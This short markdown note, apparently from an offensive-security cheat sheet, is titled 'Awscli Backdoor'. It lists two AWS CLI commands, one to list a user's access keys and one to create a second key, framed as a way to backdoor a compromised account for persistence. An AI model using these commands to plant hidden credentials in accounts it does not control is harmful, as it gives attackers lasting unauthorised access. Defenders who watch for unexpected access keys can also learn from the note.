 # Awscli Backdoor

### List access keys for a user

    aws iam list-access-keys --user-name USERNAME

### Backdoor account with second set of access keys

    aws iam create-access-key --user-name USERNAME
